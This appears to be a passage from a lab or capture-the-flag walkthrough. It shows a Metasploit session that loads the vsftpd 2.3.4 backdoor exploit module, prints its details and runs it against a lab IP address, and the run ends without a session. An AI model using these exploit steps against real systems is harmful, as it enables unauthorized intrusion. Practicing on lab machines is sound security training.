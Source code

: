 ```
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.
```
Let's try to exploit it:
```
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set RHOSTS 10.129.151.43
RHOSTS => 10.129.151.43
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> run

[*] 10.129.151.43:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.151.43:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```